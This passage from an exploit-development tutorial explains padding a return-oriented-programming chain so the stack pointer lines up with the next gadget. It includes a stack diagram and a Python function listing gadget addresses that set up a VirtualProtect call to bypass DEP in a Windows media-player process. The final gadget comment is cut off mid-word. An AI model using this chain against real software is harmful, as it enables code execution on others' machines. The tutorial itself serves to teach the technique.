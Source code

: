 
In a nutshell the wrong instructions are being passed the wrong data, with several instructions being completely missed. A real mess.

To align the stack pointer (`ESP`) with the second step in the ROP chain, could introduce some padding, between the first and second gadgets. The actual bytes of this padding doesn't matter as the bytes are simply being used for alignment, and will never be executed. 16 bytes of `NOP` (`0x90`) should result in `ESP` lined up perfectly with the second ROP gadget, like this:


                 0x00000000
            
            |        ...        |
            |-------------------|
            |  41414141 (AAAA)  | 0x00B7EF44
            |-------------------|
            |  41414141 (AAAA)  | 0x00B7EF48
            |-------------------|
    EIP ->  |  7DEB1DA7 (ROP1)  | 0x00B7EF4C
            |-------------------|
            |  90909090 (PAD)   | 0x00B7EF50
            |-------------------|
            |  90909090 (PAD)   | 0x00B7EF54
            |-------------------|
            |  90909090 (PAD)   | 0x00B7EF58
            |-------------------|
            |  90909090 (PAD)   | 0x00B7EF5C
            |-------------------|
    ESP ->  |  59A010F8 (ROP2)  | 0x00B7EF60
            |-------------------|
            |  07B43279 (ROP3)  | 0x00B7EF64
            |-------------------|
            |        ...        |
            
                 0xFFFFFFFF

Or more concretely in the python script for the exploit:

```python
def create_rop_chain():
    rop_gadgets = [
        0x7deb1da7,  # POP EAX # RETN [mshtml.dll] 
        0x90909090,  # padding to align ESP
        0x90909090,  # padding to align ESP
        0x90909090,  # padding to align ESP
        0x90909090,  # padding to align ESP
        0x59a010f8,  # ptr to &VirtualProtect() [IAT wmdmlog.dll]
        0x07b43279,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [out_ds.dll] 
        0x7de0ce7b,  # XCHG EAX,ESI # RETN [mshtml.dll] 
        0x083cba30,  # POP EBP # RETN [jpeg.w5s] 
        0x5ad86aeb,  # & push esp # ret  [UxTheme.dll]
        0x76cac606,  # POP EAX # RETN [IMAGEHLP.dll] 
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x08493327,  # NEG EAX # RETN [playlist.w5s] 
        0x7dc82979,  # XCHG EAX,EBX # RETN [mshtml.dll] 
        0x7c87f229,  # POP EAX # RETN [kernel32.dll] 
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x771bcbe4,  # NEG EAX # RETN [WININET.dll] 
        0x7dc80eed,  # XCHG EAX,EDX # RETN [mshtml.dll] 
        0x7dc5567d,  # POP ECX # RETN [mshtml.dll] 
        0x77e4ac2e,  # &Writable location [ADVAPI32.dll]
        0x0832bbfb,  # POP EDI # RETN [jnetlib.w5s] 
        0x77e8c786,  # RETN (ROP NOP) [RPCRT4.dll]
        0x7dc32ee1,  # POP EAX # RETN [mshtml.dll] 
        0x90909090,  # nop
        0x7e423ad9,  # PUSHAD # RETN [USER32.d
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

```
